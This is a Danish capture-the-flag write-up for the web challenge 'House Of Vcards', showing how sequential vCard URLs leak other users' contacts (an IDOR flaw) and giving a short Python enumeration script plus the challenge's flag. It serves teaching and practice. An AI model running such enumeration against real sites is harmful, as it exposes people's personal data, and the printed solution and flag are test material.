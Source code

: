 # House Of Vcards Writeup

## Challenge information
Navn: House Of Vcards

Forslået Sværhedsgrad: Let

Haaukins API: Ja

Beskrivelse: 

Jeg har lavet en ny smart side, så folk kan holde styr på alle deres kontakter, men jeg er lidt nervøs for at have så meget personfølsom data liggende.

Kan du tjekke siden igennem og se, hvad du kan få adgang til?

http://contacts-vault.hkn

## Writeup

Vi kan tilgå http://contacts-vault.hkn og finder forsiden til hvad ligner en kontaktbog:

![Forside](Forside.png)

Ved at trykke på knappen ```Join Contact``` kan vil lave en ny bruger.

Vi er derefter mødt med denne side:

![accountpage](accountpage.PNG)

Ved at trykke ```New``` i øverst højre hjørne kan vi oprette en kontakt:

![newcontact](newcontact.png)

Efter en kontakt er lavet popper den op i vores dashboard, hvor vi enten kan downloade et såkaldt "Vcard" til den. Redigere kontakten eller slette den.

Hvis vi kigger på netværkstrafikken via. browser konsollen når vi trykker på Vcard knappen kan vi se den laver en request til ```http://contacts-vault.hkn/files/vcards/201.vcf```

![download Vcard](downloadvcard.png)

Hvis vi laver en request til feks. ```http://contacts-vault.hkn/files/vcards/200.vcf``` får vi et Vcard med data i, som vi ikke normalt burde have adgang til:

![IDOR example](IDORexample.png)

Det ligner derved at vores flag vil ligge i en af disse kontakter.

Vi kan herfra enten downloade hver kontakt og tjekke om der er et flag i filen. Eller vi kan lave et script som leder efter dette for os.

Jeg valgte at skrive følgende lille script som går igennem .vcf filerne fra 1 til 200:

```python
import requests

url = "http://contacts-vault.hkn/files/vcards/"
ext = ".vcf"

for i in range(0,200):
    r = requests.get(f"{url}{str(i)}{ext}")

    if "DDC" in r.text:
        print(r.text)
```

Dette giver os flaget flere gange:

![script run](scriptrun.png)

```DDC{b3tt3r_f1x_th4t_IDOR_vuln_b3f0r3_n3xt_GDPR_4ud1t}```

